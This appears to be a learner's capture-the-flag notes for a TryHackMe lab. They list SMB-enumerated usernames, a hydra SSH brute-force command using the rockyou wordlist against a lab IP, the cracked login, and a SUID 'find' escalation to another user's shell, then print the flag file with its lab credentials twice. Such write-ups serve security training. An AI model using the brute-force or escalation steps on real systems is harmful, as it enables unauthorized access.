 # Enum users with SMB
- kel
- des
- tryhackme

# Brute Froce SSH
hydra -l users -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.19.174 -t 4 -v

``[22][ssh] host: 10.10.19.174   login: tryhackme   password: thebest``

# SUID
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find

tryhackme@THM_exploit:~$ cd /usr/bin/
tryhackme@THM_exploit:/usr/bin$ ./find . -exec /bin/bash -p \;

bash-4.4$ whoami
des
bash-4.4$ cd /home/des/

bash-4.4$ cat flag.txt
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
bash-4.4$


Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64